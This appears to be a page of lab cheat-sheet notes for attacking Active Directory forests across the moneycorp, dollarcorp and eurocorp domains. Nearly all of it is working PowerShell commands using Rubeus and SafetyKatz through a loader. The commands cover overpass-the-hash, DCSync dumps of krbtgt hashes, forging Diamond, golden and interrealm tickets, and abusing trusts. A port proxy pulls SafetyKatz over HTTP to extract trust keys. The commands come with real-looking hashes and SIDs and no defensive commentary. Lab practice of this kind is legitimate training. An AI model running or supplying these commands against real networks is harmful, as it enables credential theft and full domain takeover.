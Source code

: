 #### OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Forge golden ticket to access parent domain DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e /domain:moneycorp.local /sid:S-1-5-21-335606122-960912869-3279953914 /ldap /user:Administrator /printcmd
```

Run displayed command and add `/ptt`
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args <argumnets> /ptt
```

Across external trusts - OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```

Create interrealm ticket - `sid` = current domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:0198d3872de6e6c0978af7ebe2d8d495 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

> **Note:** Can only access resources that were explicitly shared with you

Import ticket to access shared resources
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

View resources
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

ba01bd4d93d9f211a582bb4ec2d6d72b